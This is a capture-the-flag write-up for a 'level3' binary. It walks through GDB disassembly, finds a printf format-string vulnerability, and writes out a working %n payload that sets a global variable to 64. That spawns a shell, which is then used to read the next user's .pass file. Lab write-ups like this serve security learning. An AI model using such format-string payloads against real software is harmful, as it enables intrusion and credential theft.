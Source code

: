 # Level3

First step - testing the program

	$ ./level3
	coucou
	coucou

The program wait an input and print it

Start it in GDB

	(gdb)$ disas main
	Dump of assembler code for function main:
	   0x0804851a <+0>:		push   ebp
	   0x0804851b <+1>:		mov    ebp,esp
	   0x0804851d <+3>:		and    esp,0xfffffff0
	   0x08048520 <+6>:		call   0x80484a4 <v>
	   0x08048525 <+11>:	leave
	   0x08048526 <+12>:	ret
	End of assembler dump.

The main call a function "v"

	(gdb)$ disas v
	Dump of assembler code for function v:
	   0x080484a4 <+0>:		push   ebp
	   0x080484a5 <+1>:		mov    ebp,esp
	   0x080484a7 <+3>:		sub    esp,0x218
	   0x080484ad <+9>:		mov    eax,ds:0x8049860
	   0x080484b2 <+14>:	mov    DWORD PTR [esp+0x8],eax
	   0x080484b6 <+18>:	mov    DWORD PTR [esp+0x4],0x200
	   0x080484be <+26>:	lea    eax,[ebp-0x208]
	   0x080484c4 <+32>:	mov    DWORD PTR [esp],eax
	   0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
	   0x080484cc <+40>:	lea    eax,[ebp-0x208]
	   0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
	   0x080484d5 <+49>:	call   0x8048390 <printf@plt>
	   0x080484da <+54>:	mov    eax,ds:0x804988c
	   0x080484df <+59>:	cmp    eax,0x40
	   0x080484e2 <+62>:	jne    0x8048518 <v+116>
	   0x080484e4 <+64>:	mov    eax,ds:0x8049880
	   0x080484e9 <+69>:	mov    edx,eax
	   0x080484eb <+71>:	mov    eax,0x8048600
	   0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
	   0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
	   0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
	   0x08048504 <+96>:	mov    DWORD PTR [esp],eax
	   0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
	   0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
	   0x08048513 <+111>:	call   0x80483c0 <system@plt>
	   0x08048518 <+116>:	leave
	   0x08048519 <+117>:	ret
	End of assembler dump.

There is a check on a variable "0x804988c" (global variable) for CMP with "64". If the comparaison is good, the program execute "system"

We can get the name of this global variable

	(gdb-peda)$ info variables
	All defined variables:

	Non-debugging symbols:
	...
	0x0804988c  m
	...

The name is "m"

Also, the program use printf without modifier, like this "printf(variable)"

This is insecure, it's a format string. We can exploit it

We can inject some modifier in the buffer for printf

	$ echo "%s" | ./level3
	Segmentation fault (core dumped)

Printf tried to acces to a parameter in the stack and segfault because he tried to access the value of an address on the stack

	$ echo "%x %x %x %x" | ./level3
	200 b7fd1ac0 b7ff37d0 25207825

With "%x", printf get directly the address. We can go up in the stack like this

We need to see in which address our buffer is wrote

	$ echo "BBBB %x %x %x %x %x %x" | ./level3
	BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825

Our buffer "BBBB" is stored in the 4th position in the stack "42424242"

Now, we need to change this address to the address of the "m" variable ("0x804988c" in gdb), for change it after

	$ python -c "print '\x8c\x98\x04\x08'+'%x %x %x %x'" | ./level3
	�200 b7fd1ac0 b7ff37d0 804988c

Ok good. Now we will use the modifier "%n" instead of "%x"

"%n" write in the address the number of bytes before

If we do this

	$ python -c "print '\x8c\x98\x04\x08'+'%x %x %x %n'" | ./level3

The number will be 4. Because our buffer "\x8c\x98\x04\x08" is 4 bytes

We can write it like this for a better view

	$ python -c "print '\x8c\x98\x04\x08'+'%4$n'" | ./level3

It's choose directly the 4th position and skip the 3 "%x" before

Now we need to write 64 in "m" for pass the condition. So just add 60 more bytes

	$ python -c 'print "\x8c\x98\x04\x08"+"B"*60+"%4$n"' | ./level3
	�BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
	Wait what?!

Good! Let's keep stdin open for access the shell

	$ (python -c 'print "\x8c\x98\x04\x08"+"B"*60+"%4$n"'; cat -) | ./level3
	�BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
	Wait what?!
	whoami
	level4
	cat ~level4/.pass

Script it for reproduce!
